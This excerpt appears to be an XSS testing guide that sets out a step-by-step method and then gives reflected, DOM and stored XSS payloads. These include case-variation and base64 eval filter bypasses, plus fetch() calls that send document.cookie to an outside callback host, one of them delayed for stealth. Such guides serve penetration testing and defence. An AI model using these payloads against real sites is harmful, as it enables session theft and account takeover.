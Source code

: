 ### 1\. Context Identification

  - Determine where your input is being reflected
  - Identify the context (HTML, JavaScript, CSS, URL)
  - Choose appropriate payloads for the context

### 2\. Filter Testing

  - Start with basic payloads
  - If blocked, try bypass techniques
  - Use encoding if necessary
  - Test case variations

### 3\. Advanced Exploitation

  - Use polyglot payloads for multiple contexts
  - Implement data exfiltration
  - Set up callbacks for XSS Hunter
  - Test in different browsers

### 4\. Documentation

  - Record which payloads worked
  - Document effective bypass techniques
  - Keep logs of received callbacks

## Practical Examples

### Example 1: Reflected XSS in Search Parameter

```
URL: https://example.com/search?q=<script>alert(1)</script>
Bypass: https://example.com/search?q=<ScRiPt>alert(1)</ScRiPt>
Advanced: https://example.com/search?q=<svg onload=fetch('https://example.bxss.in?'+document.cookie)>
```

### Example 2: DOM XSS via Fragment

```
URL: https://example.com/page#<script>alert(1)</script>
Payload: https://example.com/page#alert(1)
Callback: https://example.com/page#fetch('https://example.bxss.in?'+document.cookie)
```

### Example 3: Stored XSS in Comment

```
Input: <img src=x onerror=alert(1)>
Bypass: <img src=x onerror=eval(atob('YWxlcnQoMSk='))>
Stealth: <img src=x onerror=setTimeout(()=>fetch('https://example.bxss.in?'+document.cookie),5000)>
```
